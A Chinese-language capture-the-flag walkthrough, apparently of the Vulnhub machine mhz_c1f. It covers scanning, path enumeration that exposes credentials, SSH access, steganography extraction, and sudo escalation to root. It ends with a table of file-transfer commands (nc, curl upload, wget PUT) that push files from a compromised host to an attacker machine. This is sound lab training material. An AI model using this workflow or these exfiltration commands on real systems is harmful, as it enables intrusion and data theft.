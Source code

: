```yaml
---
title: 'mhz_c1f : Walkthrough'
date: 2020-05-31T10:50:12+08:00
author: 2hanx
layout: post
categories:
  - Vulnhub
---
```

### 主机识别

`arp-scan -l`

### 网络拓扑

| 计算机       | IP              |
| --------- | --------------- |
| 本机（Win10） | `192.168.1.105` |
| Kali      | `192.168.1.112` |
| mhz_c1f   | `192.168.1.108` |

### 扫描端口和版本信息

`nmap -A 192.168.1.108`

![1.png](https://i.loli.net/2020/05/29/YyhBi7N2S1xKqd3.png) 

### 访问 Web 并确定 Web 应用

根据 Nmap 扫描结果可知，Web 应用程序运行的是 **Apache 2.4.29** 服务器

![2.png](https://i.loli.net/2020/05/29/BSJNietofQMxrzU.png) 

经过 _whatweb_ , _dirb_ 工具扫描发现没有运行 CMS，并且也找不到其他文件。此外根据作者提示需要枚举路径和隐写

<pre><code class="line-numbers">You will learn a little about enumeration/local enumeration , steganography.
</code></pre>

看来在这一步要进行暴力枚举路径，那么我们使用参数 `-X` 来缩减范围。多次尝试发现存在 `notes.txt` 文本（`dirb http://192.168.1.108 -X .txt`）

![3.png](https://i.loli.net/2020/05/29/cboKyrxL7uzBCNh.png) 

第一条暂时没什么头绪，第二条给出了两个文件名 `remb.txt`和 `remb2.txt`。访问第一个文件返回内容：`first_stage:flagitifyoucan1234`，判定这是一个账户和密码；访问第二个文件不存在

使用该账户密码通过 ssh 登录系统

![4.png](https://i.loli.net/2020/05/29/oz524TpdURt1IDM.png) 

该文本并没有提示什么有用信息，不过在 `/home/mhz_c1f/Paintings`路径下存在 4 张图片文件。看到图片又结合作者提示立刻联想到这些图片中存在隐写信息

接下来的步骤很明显，将这些图片传到 Kali 下，使用 _steghide_ 工具提取隐藏信息

虚拟机没有安装 Python 环境，不能使用常用的方法了，不过我们可以通过 _nc_ 来传文件

![5.png](https://i.loli.net/2020/05/29/lVjhteLFkxTBpc7.png) 

在 Kali 端执行下图中的命令

![6.png](https://i.loli.net/2020/05/29/8qEdAxp1eiWX9Nl.png) 

使用 _steghide_ 提取隐藏信息，得到一个账户名和密码：`mhz_c1f:1@ec1f`

![7.png](https://i.loli.net/2020/05/29/rGF3pCaLcgw4KoO.png) 

ssh 不能登录，那么就在 _first_stage_ 账户下切换到 _mhz_c1f_ 账户

### 提权

_mhz_c1f_ 具有 sudo 权限，切换到 _root_ 账户即可

![9.png](https://i.loli.net/2020/05/29/JBdLiVvyE2FMKC7.png) 

![8.png](https://i.loli.net/2020/05/29/af3Ekm7eS4dCnz2.png) 

### 总结

红队中常使用到的 Linux 环境的文件传输技巧

| 工具           | 源主机(发送端)                                                           | 宿主机(接收端 &#124; `192.168.1.112`) |
| ------------ | ------------------------------------------------------------------ | ------------------------------- |
| Python2 环境   | `python2 -m SimpleHTTPServer 8088`                                 | 浏览器访问即可下载或者使用 _curl_ 、_wget_    |
| Python3 环境   | `python3 -m http.server 8088`                                      | 浏览器访问即可下载或者使用 _curl_ 、_wget_    |
| PHP 5.4+ 环境  | `php -S 0.0.0.0:8088`                                              | 浏览器指定文件名下载或者使用 _curl_ 、_wget_   |
| Ruby 1.9+ 环境 | `ruby -run -e httpd . -p 8088`                                     | 浏览器访问即可下载或者使用 _curl_ 、_wget_    |
| _netcat_ 工具  | `nc 192.168.1.112 8088 < file.txt`                              | `nc -lvp 8088 > file.txt`    |
| _curl_ 工具    | `curl --upload-file file.txt http://192.168.1.110:8088`            | 搭建支持 PUT 方法的 HTTP 服务器           |
| _wget_ 工具    | `wget --method=PUT --post-file=file.txt http://192.168.1.112:8088` | 搭建支持 PUT 方法的 HTTP 服务器           |
